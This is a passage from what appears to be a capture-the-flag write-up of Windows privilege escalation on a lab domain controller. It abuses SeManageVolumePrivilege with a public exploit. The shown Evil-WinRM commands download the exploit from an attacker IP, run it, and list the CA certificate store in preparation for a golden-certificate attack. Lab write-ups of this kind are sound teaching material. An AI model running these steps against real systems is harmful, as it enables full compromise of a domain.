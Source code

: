 ## Privilege Escalation to SYSTEM

### SeManageVolumePrivilege Abuse (Golden Certificate)

After a bit of research we found the amazing work of `CsEnox` which should grant us `full disk access` on the box by abusing `SeManageVolumePermission`.

- [https://github.com/CsEnox/SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)

We copied the `SeManageVolumenExploit.exe` to the box and executed it.

```cmd
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> iwr 10.10.16.15/SeManageVolumeExploit.exe -o SeManageVolumeExploit.exe
```

```cmd
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> .\SeManageVolumeExploit.exe
Entries changed: 839

DONE
```

After it changed the permissions the next step was to find a way to leverage our new capabilities. Therefore we investigated the `Certificate Storage` using `certutil` to stay in the theme of the box.

```cmd
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> certutil -store My
My "Personal"
================ Certificate 0 ================
Archived!
Serial Number: 472cb6148184a9894f6d4d2587b1b165
Issuer: CN=certificate-DC01-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:30 PM
 NotAfter: 11/3/2029 3:40 PM
Subject: CN=certificate-DC01-CA, DC=certificate, DC=htb
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Cert Hash(sha1): 82ad1e0c20a332c8d6adac3e5ea243204b85d3a7
  Key Container = certificate-DC01-CA
  Provider = Microsoft Software Key Storage Provider
Missing stored keyset

================ Certificate 1 ================
Serial Number: 5800000002ca70ea4e42f218a6000000000002
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 8:14 PM
 NotAfter: 11/3/2025 8:14 PM
Subject: CN=DC01.certificate.htb
Certificate Template Name (Certificate Type): DomainController
Non-root Certificate
Template: DomainController, Domain Controller
Cert Hash(sha1): 779a97b1d8e492b5bafebc02338845ffdff76ad2
  Key Container = 46f11b4056ad38609b08d1dea6880023_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft RSA SChannel Cryptographic Provider
Missing stored keyset

================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
```